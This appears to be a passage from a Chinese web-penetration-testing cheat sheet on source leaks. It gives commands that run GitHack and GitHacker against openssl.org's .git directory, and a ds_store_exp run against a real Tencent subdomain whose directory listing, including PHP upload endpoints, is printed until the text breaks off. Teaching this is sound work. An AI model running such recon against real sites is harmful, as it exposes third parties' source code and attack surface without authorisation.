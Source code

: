 [GitHack](https://github.com/lijiejie/GitHack)

```shell
python GitHack.py http://www.openssl.org/.git/
```

[GitHacker（可恢复完整 Git 仓库）](https://github.com/WangYihang/GitHacker)

```shell
python GitHacker.py http://www.openssl.org/.git/
```

### `.DS_Store` 文件泄露

Mac OS 中会包含有 `.DS_Store` 文件，包含文件名等信息。

[利用工具 ds\_store\_exp](https://github.com/lijiejie/ds_store_exp)

```shell
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
```